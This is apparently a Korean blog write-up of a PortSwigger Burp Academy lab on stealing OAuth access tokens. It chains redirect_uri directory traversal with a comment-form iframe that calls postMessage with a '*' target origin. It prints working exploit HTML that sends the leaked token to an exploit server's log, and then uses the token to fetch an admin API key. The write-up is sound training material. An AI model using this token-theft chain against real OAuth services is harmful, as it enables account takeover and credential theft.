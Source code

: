 ```yaml
---
layout: post
title: "Burp Academy-OAuth 여섯번째 문제: Stealing OAuth access tokens via a proxy page"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, OAuth취약점]
toc: true
---
```


# 개요
- OAuth 2.0 인증에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/oauth
- 문제 주소: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page
- 난이도: EXPERT (어려움)

# 문제 설명
- 이전 문제들과 마찬가지로 소셜미디어 계정을 이용한 OAuth 로그인 기능이 있다. 
- OAuth 서비스에는 밸리데이션 취약점이 있어서 공격자가 클라이언트의 특정 페이지에서 억세스 토큰을 훔칠 수 있다. 
- 클라이언트 어플리케이션에도 취약점이 있다. 어플리케이션을 프록시로 사용해서 억세스 토큰을 훔칠 수 있다. 
- 

```
 This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: wiener:peter. 
```


# 풀이 
어려워서 답을 보면서 진행했다. 

## 1. redirect_uri의 디렉토리 트래버셜 확인 
`GET /auth?` 요청에서 redirect_uri의 디렉토리 트래버셜이 가능한 것을 확인했다. 

```
GET /auth?client_id=wr6o9s5ajdr712wi4ghd6&redirect_uri=https://0a6100c704bed5e7823ecf6800330046.web-security-academy.net/oauth-callback/../../&response_type=token&nonce=137977735&scope=openid%20profile%20email HTTP/2
Host: oauth-0a8900da040ad56d82ddcdbc027400c5.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers


```

```
HTTP/2 302 Found
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Set-Cookie: _interaction=wcINI_iR2FhkvwlvASk8q; path=/interaction/wcINI_iR2FhkvwlvASk8q; expires=Wed, 24 May 2023 00:04:38 GMT; samesite=lax; secure; httponly
Set-Cookie: _interaction_resume=wcINI_iR2FhkvwlvASk8q; path=/auth/wcINI_iR2FhkvwlvASk8q; expires=Wed, 24 May 2023 00:04:38 GMT; samesite=lax; secure; httponly
Location: /interaction/wcINI_iR2FhkvwlvASk8q
Content-Type: text/html; charset=utf-8
Date: Tue, 23 May 2023 23:54:38 GMT
Keep-Alive: timeout=5
Content-Length: 99

Redirecting to <a href="/interaction/wcINI_iR2FhkvwlvASk8q">/interaction/wcINI_iR2FhkvwlvASk8q</a>.
```

## 2. 클라이언트 어플리케이션의 취약점(iframe)발견 
`GET /post?postId=[...]` 요청의 응답을 보면 다음과 같이 커멘트를 입력하는 폼이 iframe으로 되어 있는 것을 알 수 있다. 

```html
<iframe onload='this.height = this.contentWindow.document.body.scrollHeight + "px"' width=100% frameBorder=0 src='/post/comment/comment-form#postId=1'></iframe>
```

커멘트폼에서는 다음 스크립트가 동작한다. postMessage메서드로 부모 윈도우로 `window.location.href`값을 보내도록 되어 있는 것을 알 수 있다. 그리고 postMessage의 두번째 파라메터가 '*'으로 되어 있다. 이 부분은 [postMessage 스펙](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)에 의하면 targetOrigin을 의미한다. 이 부분이 '*'로 되어 있으면 부모윈도우가 어떤 사이트여도 이 스크립트는 동작한다. 즉, exploit서버에서 이 페이지를 iframe으로 호출해도 동작할 것이다. 이 부분이 클라이언트 어플리케이션의 취약점이다. 이 것을 이용한다. 

```
<script>
    parent.postMessage({type: 'onload', data: window.location.href}, '*')
    function submitForm(form, ev) {
        ev.preventDefault();
        const formData = new FormData(document.getElementById("comment-form"));
        const hashParams = new URLSearchParams(window.location.hash.substr(1));
        const o = {};
        formData.forEach((v, k) => o[k] = v);
        hashParams.forEach((v, k) => o[k] = v);
        parent.postMessage({type: 'oncomment', content: o}, '*');
        form.reset();
    }
</script>
```

## 3. exploit서버 준비 

프록시 탭에서 `GET /auth?client_id=[...]` 요청을 찾은 다음 URL을 카피해둔다. 그리고 iframe에서 해당 URL에 접근하도록 한다. 그리고 redirect_uri부분은 디렉토리 트래버셜로 커멘트폼으로 이동되도록 만든다. 

```
<iframe src="https://oauth-0aaa00d80325b5ece6229d04021100b5.oauth-server.net/auth?client_id=mxmdzxngn6bp633fmorzm&redirect_uri=https://0a1f008f0320b5a6e6fc9fe900e1007d.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1134627421&scope=openid%20profile%20email"></iframe>
```

## 4. 데이터를 빼오는 스크립트 추가 
exploit서버의 페이지에 다음 스크립트를 추가한다. 

```html
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```

exploit서버의 전체적인 페이지는 다음과 같다. 

```html
<html>
<body>
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>

<iframe src="https://oauth-0aaa00d80325b5ece6229d04021100b5.oauth-server.net/auth?client_id=mxmdzxngn6bp633fmorzm&redirect_uri=https://0a1f008f0320b5a6e6fc9fe900e1007d.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1134627421&scope=openid%20profile%20email"></iframe>
</body>
</html>
```

이 스크립트는 어떻게 동작할까?

1. iframe이 먼저 동작한다. OAuth서버의 디렉토리 트래버셜 취약점 때문에 OAuth인증 후 억세스 토큰과 함게 `/post/comment/comment-form`으로 이동된다. 
2. `/post/comment/comment-form`로 이동하면 부모윈도우로 `window.location.href`의 값을 보내는 스크립트가 동작한다. 
3. `window.location.href`에는 access_token이 포함되어 있다. 
4. 부모 윈도우에 있는 스크립트가 동작한다. 구체적으로는 iframe의 postMessage 이벤트를 캐치하는 이벤트 리스너가 동작한다. `window.location.href`의 값 데이터로 받아 URL인코딩한 후 이 값을 포함해서 `GET /`로 요청한다.

## 5. exploit 시도 
준비가 끝났다. Deliver to victim버튼을 클릭한 후, 억세스 로그를 확인한다. 

그러면 다음과 같이 access_token이 포함된 요청이 있는 것을 확인할 수 있다. 

![억세스 로그 확인](/images/burp-academy-oauth-6-2.png)

access_token의 값을 얻어와서 Authorization: Bearer 헤더에 지정해서 `/me` 요청을 보낸다.  이렇게 하면 apiKey를 획득할 수 있다. 

![apiKey획득](/images/burp-academy-oauth-6-3.png)

얻은 apiKey를 문제서버에 제출하면 풀이에 성공했다는 메세지가 출력된다. 

![성공](/images/burp-academy-oauth-6-success.png)


# 참고 
- developer.mozilla.org/ja/docs/Web/API/Window/message_event
- https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage